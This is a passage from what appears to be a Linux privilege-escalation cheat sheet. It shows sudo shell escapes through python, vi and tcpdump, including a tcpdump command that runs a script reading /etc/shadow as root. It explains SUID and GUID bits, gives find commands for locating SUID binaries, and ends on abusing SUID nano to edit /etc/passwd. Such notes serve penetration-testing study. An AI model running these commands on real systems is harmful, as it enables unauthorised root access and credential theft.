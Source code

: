 Python:

```text
sudo python
import os
os.system("/bin/bash")
```

Using `tcpdump`:

```text
echo $'id\ncat /etc/shadow' > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root
```

Using `vi` or `vim`:

```text
sudo vi
:shell

:set shell=/bin/bash:shell    
:!bash
```
You can find more usable binaries at [GTFOBins](https://gtfobins.github.io/)

## SUID

SUID stands for set user ID and allows low-privileged users to execute the file as the **file owner**. This is especially useful when an application requires temporary root privileges to run effectively. Examples of such applications include `ping` and `nmap` which both need root permissions to open raw network sockets and create network packets. In general, this enhances security because you can grant root privileges to a single application isntead of a user account. However, SUID can be a serious security issue when that application is able to execute commands or edit files.

Command execution happens in the context of the service or the program that executes it. When the SUID is set as root then commands will be executed as root. The same applies to programs that are able to edit files, such as `vi`, `nano` and `leafpad`. Configuring these programs to execute as root would be a serious security vulnerability because any user could edit any file on the system.

Similarly, GUID means the program is run as the group, not the user who runs it.

Find SUID and GUID programs:

```text
find /* -user root -perm -4000 -print 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

find / -perm -g=s -type f 2>/dev/null
```

### Abusing SUID nano

If nano \(or any other text editor\) has a SUID-bit, it can be used to edit `/etc/passwd` to change the root password.
